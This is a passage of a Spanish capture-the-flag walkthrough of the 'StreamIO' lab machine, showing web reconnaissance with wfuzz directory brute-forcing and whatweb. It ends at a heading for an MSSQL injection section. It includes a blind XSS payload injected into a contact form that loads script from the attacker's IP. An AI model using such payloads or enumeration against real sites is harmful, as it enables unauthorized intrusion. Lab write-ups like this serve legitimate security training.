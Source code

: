---------------------
## Puerto 443: https

![streamIO_2](https://user-images.githubusercontent.com/96772264/206920882-2d0926a0-6e41-4bbd-88eb-acc568c5d334.PNG)

- Hay un contact.php, pongo ```<script src="http://10.10.14.16"></script>``` pero no recibo respuesta.    
- En about.php salen tres personas "Barry" "Oliver" y "Samantha" pero al hacer lo de kerberos no resulta.    

Aun así el nombre de oliver sale abajo: oliver@Streamio.htb

```console
└─$ wfuzz -c --hc=404 -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  https://streamIO.htb/FUZZ/
000000003:   403        29 L     92 W       1233 Ch     "images"
000000246:   403        0 L      1 W        18 Ch       "admin"
000000537:   403        29 L     92 W       1233 Ch     "css"
000000940:   403        29 L     92 W       1233 Ch     "js"
000002758:   403        29 L     92 W       1233 Ch     "fonts"
000009792:   404        29 L     95 W       1245 Ch     "ShowForum"
```

En **/admin/** pone FORBIDDEN, el sisteam arrastra una PHPSESSID es decir una cookie de PHP, si consiguieramos la correcta podríamos entrar.
Hay una parte para registrarse y otra para entrar con las creds, pero aunque nos registremos no nos dejan.
![streamIO_4](https://user-images.githubusercontent.com/96772264/206920928-794bf481-e56a-4a70-b514-b2a78db76d3c.PNG)

------------------
## watch.streamIO.htb
Haciendo un ```whatweb https://watch.streamIO.htb``` nos sale que es PHP  

```console
└─$ wfuzz -c --hc=404 -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  https://watch.streamIO.htb/FUZZ/
000000256:   403        29 L     92 W       1233 Ch     "static"
└─$ wfuzz -c --hc=404 -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  https://watch.streamIO.htb/FUZZ.php
000000002:   200        78 L     245 W      2829 Ch     "index"
000000014:   200        7193 L   19558 W    253887 Ch   "search"
000019917:   200        19 L     47 W       677 Ch      "blocked"
```

**/search**
Si buscamos por una buena película:   
![streamIO_6](https://user-images.githubusercontent.com/96772264/206920938-240c34e5-89ec-4d42-9546-1689d05ee213.PNG)

-----------------------
# Part 2: MSSQLi
